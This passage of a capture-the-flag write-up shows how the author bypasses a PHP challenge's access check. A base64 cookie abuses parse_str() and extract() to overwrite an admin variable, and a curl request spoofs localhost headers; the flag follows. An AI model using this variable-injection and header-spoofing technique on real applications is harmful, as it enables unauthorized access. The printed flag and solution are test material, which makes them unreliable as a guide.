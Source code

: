 The second function is `extract()` that imports variables into the current symbol table from an array. So, given the `$output` variable from above, `extract()` will create two variables `$foo` and `$bar` if they don't yet exist, or replace the value of those variables if they already exist.

To take advantage of both functions, I just need to alter my `identify` cookie into base64-encoded of `allow_access=true&admin=1337l333333333333333333333333t`. The `parse_str()` function will change the `$output` variable into:
```
$output = array(
    "allow_access" => "true",
    "admin" => "1337l333333333333333333333333t"
);
```

And the `extract()` function will replace the value of `$admin` variable into `1337l333333333333333333333333t`.

Simply put, here's the modified cookie:
```
identify=YWxsb3dfYWNjZXNzPXRydWUmYWRtaW49MTMzN2wzMzMzMzMzMzMzMzMzMzMzMzMzMzMzMzN0
```

And I sent the final request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWUmYWRtaW49MTMzN2wzMzMzMzMzMzMzMzMzMzMzMzMzMzMzMzN0" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --data "12345=true" --header "Accept: flag/*" -v
```

And there's the flag.


![bee463428aa994dbf3f8b4ff42d988fb.png](/assets/images/c0e10931d77d427a98f690908e6e8056.png)


### The Flag

Flag is **HilltopCTF{HTTP_1s_just_4_game_right.}**